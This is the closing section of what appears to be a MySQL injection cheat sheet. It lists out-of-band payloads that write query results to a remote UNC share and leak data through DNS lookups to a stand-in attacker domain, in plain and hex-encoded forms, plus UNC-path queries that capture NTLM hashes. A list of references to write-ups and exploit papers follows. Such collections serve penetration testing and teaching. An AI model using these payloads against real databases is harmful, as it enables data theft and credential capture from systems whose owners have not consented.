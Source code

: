 
## MYSQL Out of band

```powershell
select @@version into outfile '\\\\192.168.0.100\\temp\\out.txt';
select @@version into dumpfile '\\\\192.168.0.100\\temp\\out.txt
```

### DNS exfiltration

```sql
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
select load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874))
```

### UNC Path - NTLM hash stealing

```sql
select load_file('\\\\error\\abc');
select load_file(0x5c5c5c5c6572726f725c5c616263);
select 'osanda' into dumpfile '\\\\error\\abc';
select 'osanda' into outfile '\\\\error\\abc';
load data infile '\\\\error\\abc' into table database.table_name;
```

## References

- [MySQL Out of Band Hacking - @OsandaMalith](https://www.exploit-db.com/docs/english/41273-mysql-out-of-band-hacking.pdf)
- [[Sqli] Extracting data without knowing columns names - Ahmed Sultan @0x4148](https://blog.redforce.io/sqli-extracting-data-without-knowing-columns-names/)
- [Help по MySql инъекциям - rdot.org](https://rdot.org/forum/showpost.php?p=114&postcount=1)
- [SQL Truncation Attack - Warlock](https://resources.infosecinstitute.com/sql-truncation-attack/)
- [HackerOne @ajxchapman 50m-ctf writeup - Alex Chapman @ajxchapman](https://hackerone.com/reports/508123)
- [SQL Wiki - netspi](https://sqlwiki.netspi.com/injectionTypes/errorBased)
- [ekoparty web_100 - 2016/10/26 - p4-team](https://github.com/p4-team/ctf/tree/master/2016-10-26-ekoparty/web_100)
- [Websec - MySQL - Roberto Salgado - May 29, 2013.](https://websec.ca/kb/sql_injection#MySQL_Default_Databases)
